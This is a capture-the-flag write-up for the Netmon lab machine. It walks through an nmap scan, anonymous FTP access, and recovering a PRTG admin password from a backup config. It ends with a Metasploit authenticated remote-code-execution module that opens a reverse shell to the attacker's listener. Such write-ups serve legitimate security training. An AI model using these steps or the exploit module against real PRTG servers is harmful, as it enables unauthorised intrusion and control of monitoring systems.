 # Netmon (10.10.10.152 -windows)
## Writeup by Hexachroma

1. nmap -sC -sV -oN nmap/init 10.10.10.152 -v 
```
21/tcp  open  ftp          Microsoft ftpd                              
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd                          
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs                      
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)           
| 02-03-19  08:08AM       <DIR>          Users                         
|_02-25-19  11:49PM       <DIR>          Windows           
| ftp-syst:                                                            
|_  SYST: Windows_NT                                                   
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)                                                         
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479  
| http-methods:                                                        
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm 
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

2. Enumerating FTPuser to get juicy user.txt
>	`get C:\Users\public\user.txt`

3. Looking at the webserver and found out PRTG NETMON is installed
>	Stumble upon official documentation and learn that this app stores old config data
>	Using FTP to reach and download the conf
>	
>	![](docs/ftp.png)

4. Open the xml bak file
>	Found possible cred
>	
>	![](docs/cred.png)

5. Try FTP with prtgadmin:PrTg@dmin2018
>	Failed

6.	Lets get back to login page (netmon.htb/index.htm)
>	Using prtgadmin:PrTg@dmin2018 and fail
>	
>	Using prtgadmin:PrTg@dmin2019 Success!
>	
>	![](docs/loginpage.png)

7.	find further vulnerability in current version
>	![](docs/vuln.png)

8. 	searchsploit current version
>	![](docs/searchsploit.png)

9.	using metasploit 
```
use exploit/windows/http/prtg_authenticated_rce
set admin_password PrTg@dmin2019
set RHOST $IP
set LHOST tun0	set LPORT 9001
run
```
>	![](docs/rce.png)
